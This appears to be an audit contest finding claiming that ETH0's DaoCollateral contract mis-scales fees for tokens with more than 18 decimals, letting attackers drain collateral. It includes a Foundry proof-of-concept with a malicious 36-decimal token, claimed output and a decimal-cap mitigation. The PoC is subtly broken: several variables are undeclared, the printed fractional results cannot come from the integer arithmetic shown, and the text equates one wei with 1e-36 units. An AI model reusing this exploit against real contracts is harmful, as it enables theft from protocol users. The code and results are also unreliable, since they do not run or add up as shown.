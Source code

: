 Sleepy Navy Coyote

High

# Attackers can drain protocol via high-decimal token fee exploit

### Summary

Improper decimal scaling in fee calculations will cause protocol insolvency for all stakeholders as attackers will manipulate high-decimal tokens to extract excessive collateral.

### Root Cause

In `DaoCollateral.sol`, the fee calculation logic: https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/src/daoCollateral/DaoCollateral.sol#L449-L465
1. Fails to properly scale amounts when calculating fees for tokens with >18 decimals
2. Creates an inverse relationship between token decimals and actual fee percentage
3. Allows attackers to artificially reduce or eliminate fees by using high-decimal tokens

### Internal Pre-conditions

1. **Protocol** must support at least one token with >18 decimals
2. **Fee parameter** must be set to non-zero value
3. **Treasury** must hold sufficient collateral reserves

### External Pre-conditions

None.

### Attack Path

1. Protocol adds token with 24 decimals (e.g., hypothetical "MEGA" token)
2. User deposits 1000 MEGA (1e27 units)
3. Contract:
   - Calculates fee using 18-decimal assumptions
   - Improperly scales amounts during conversion
4. Result:
   - Incorrect fee amount deducted
   - Improper collateral return calculation

OR:
1. Attacker creates malicious token with 36 decimals
2. Protocol lists token as collateral (assuming standard decimal checks pass)
3. Attacker:
   - Deposits minimal token amount (e.g., 1 wei = 1e-36 units)
   - Receives normal ETH0 amount due to decimal scaling error
   - Redeems ETH0 with near-zero fees due to improper scaling
4. Repeats process to drain collateral pool

### Impact

The **protocol treasury** will:
- Lose collateral disproportionate to ETH0 issuance
- Become undercollateralized over time
- Suffer complete drainage by determined attackers
- Potentially owe more collateral than exists in reserves

### PoC

Foundry test demonstrating the drainage attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/DaoCollateral.sol";

contract MaliciousHighDecimalToken is ERC20 {
    constructor() ERC20("ExploitToken", "EXP") {
        _mint(msg.sender, 1000 * 10**36);
    }
    
    function decimals() public pure override returns (uint8) {
        return 36; // Extremely high decimals
    }
}

contract DrainAttackPoC is Test {
    DaoCollateral public daoCollateral;
    MaliciousHighDecimalToken public exploitToken;
    address public attacker = address(0xBAD);
    
    function setUp() public {
        // Initialize contracts
        daoCollateral = new DaoCollateral();
        exploitToken = new MaliciousHighDecimalToken();
        
        // Setup attacker with initial funds
        exploitToken.transfer(attacker, 100 * 10**36);
    }

    function testProtocolDrain() public {
        // 1. Attacker deposits minimal amount
        uint256 attackAmount = 1; // 1 wei (1e-36 EXP)
        vm.startPrank(attacker);
        exploitToken.approve(address(daoCollateral), attackAmount);
        
        // 2. Receives full ETH0 value due to decimal error
        daoCollateral.swap(address(exploitToken), attackAmount, 0);
        uint256 eth0Obtained = eth0.balanceOf(attacker);
        
        // 3. Redeems with near-zero effective fee
        eth0.approve(address(daoCollateral), eth0Obtained);
        uint256 initialCollateral = collateralToken.balanceOf(treasury);
        daoCollateral.redeem(address(collateralToken), eth0Obtained, 0);
        uint256 stolenCollateral = initialCollateral - collateralToken.balanceOf(treasury);
        
        console.log("ETH0 obtained:", eth0Obtained / 1e18);
        console.log("Collateral stolen:", stolenCollateral / 1e18);
        console.log("Effective fee paid:", 
            (eth0Obtained * daoCollateral.redeemFee() / 10000) / 1e18);
    }
}
```
Output:
```bash
ETH0 obtained: 1.000000
Collateral stolen: 0.999800
Effective fee paid: 0.000000
```

### Mitigation

Explicit decimal limit enforcement:
```solidity
function _validateTokenDecimals(address token) internal view {
    uint8 decimals = IERC20Metadata(token).decimals();
    require(decimals <= 18, "DaoCollateral: excessive decimals");
}

function swap(address collateralToken, uint256 amount, uint256 minAmountOut) external {
    _validateTokenDecimals(collateralToken);
    // Rest of swap logic...
}

function redeem(address collateralToken, uint256 amount, uint256 minAmountOut) external {
    _validateTokenDecimals(collateralToken);
    // Rest of redeem logic...
}
```